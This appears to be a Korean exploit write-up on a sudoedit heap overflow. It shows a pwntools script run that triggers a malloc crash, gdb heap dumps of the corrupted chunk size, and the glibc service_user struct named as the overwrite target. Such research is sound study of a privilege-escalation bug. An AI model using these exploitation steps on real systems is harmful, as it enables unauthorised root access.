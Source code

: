 ```c
➜  Workspace ./a.py
[+] Starting local process '/usr/bin/gdbserver': pid 5605
[*] running in new terminal: /usr/bin/gdb -q  "/usr/bin/sudoedit" -x "/tmp/pwntvmjkl6t.gdb"
[*] Switching to interactive mode
malloc(): invalid size (unsorted)
```

정상적으로 트리거 된다. `\\`로 다음 힙 청크의 사이즈를 조졌기 때문에 이런 에러가 난다.

```c
gef➤  tel 0x5619fb3ce0c0
0x00005619fb3ce0c0│+0x0000: 0x0000000000000000
0x00005619fb3ce0c8│+0x0008: 0x0000000000001011
0x00005619fb3ce0d0│+0x0010: 0x4141414141414100
0x00005619fb3ce0d8│+0x0018: "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
0x00005619fb3ce0e0│+0x0020: "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
0x00005619fb3ce0e8│+0x0028: "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
0x00005619fb3ce0f0│+0x0030: "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
0x00005619fb3ce0f8│+0x0038: "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
0x00005619fb3ce100│+0x0040: "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
0x00005619fb3ce108│+0x0048: "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
gef➤  tel 0x5619fb3ce0c0+0x1010
0x00005619fb3cf0d0│+0x0000: 0x4141414141412041
0x00005619fb3cf0d8│+0x0008: 0x4141414141414141
0x00005619fb3cf0e0│+0x0010: 0x4141414141414141
0x00005619fb3cf0e8│+0x0018: 0x00005619fb3cc850  →  0x0000000000000000
0x00005619fb3cf0f0│+0x0020: "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
0x00005619fb3cf0f8│+0x0028: "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
0x00005619fb3cf100│+0x0030: "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
```

# Exploit

exploit은 `service_user`를 덮어써서 하는 방법이 있다. CTF처럼 힙을 조져서 하는 것 보다 깔끔하게 exploit이 된다.

```c
//nss/nsswitch.h#L61
typedef struct service_user
{
  /* And the link to the next entry.  */
  struct service_user *next;
  /* Action according to result.  */
  lookup_actions actions[5];
  /* Link to the underlying library object.  */
  service_library *library;
  /* Collection of known functions.  */
  void *known;
  /* Name of the service (`files', `dns', `nis', ...).  */
  char name[0];
} service_user; 
```
